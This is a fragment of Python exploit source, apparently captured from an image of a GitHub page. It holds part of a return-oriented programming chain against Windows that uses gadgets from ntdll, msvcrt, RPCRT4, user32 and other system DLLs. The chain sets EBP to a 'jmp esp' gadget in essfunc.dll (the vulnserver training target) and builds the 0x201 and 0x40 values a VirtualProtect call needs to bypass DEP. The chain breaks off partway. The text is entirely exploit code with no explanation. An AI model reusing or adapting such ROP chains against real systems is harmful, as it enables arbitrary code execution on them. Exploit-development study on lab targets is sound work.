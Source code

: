 ```python
        #[---INFO:gadgets_to_set_ebp:---]                                                                                                                                                                                                                                                                                  
        0x76e7c5ba,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                       
        0x625011af,  # & jmp esp [essfunc.dll]                                                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                                                                                           
        #[---INFO:gadgets_to_set_ebx:---]                                                                                                                                                                                                                                                                                  
        0x76a342f9,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                      
        0xfffffdff,  # Value to negate, will become 0x00000201                                                                                                                                                                                                                                                             
        0x768a1643,  # NEG EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                      
        0x7521f9f1,  # XCHG EAX,EBX # RETN [MSCTF.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                                                                                           
        #[---INFO:gadgets_to_set_edx:---]                                                                                                                                                                                                                                                                                  
        0x7527ea50,  # POP EAX # RETN [MSCTF.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                       
        0xffffffc0,  # Value to negate, will become 0x00000040                                                                                                                                                                                                                                                             
        0x76963193,  # NEG EAX # RETN [user32.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                      
        0x74fa1110,  # XCHG EAX,EDX # RETN [KERNELBASE.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                             
                                                                                                                                                                                                                                                                                                                           
        #[---INFO:gadgets_to_set_ecx:---]                                                                                                                                                                                                                                                                                  
        0x7689fb57,  # POP ECX # RETN [RPCRT4.dll] ** REBASED ** ASLR                                                                                                                                                                                                                                                      
```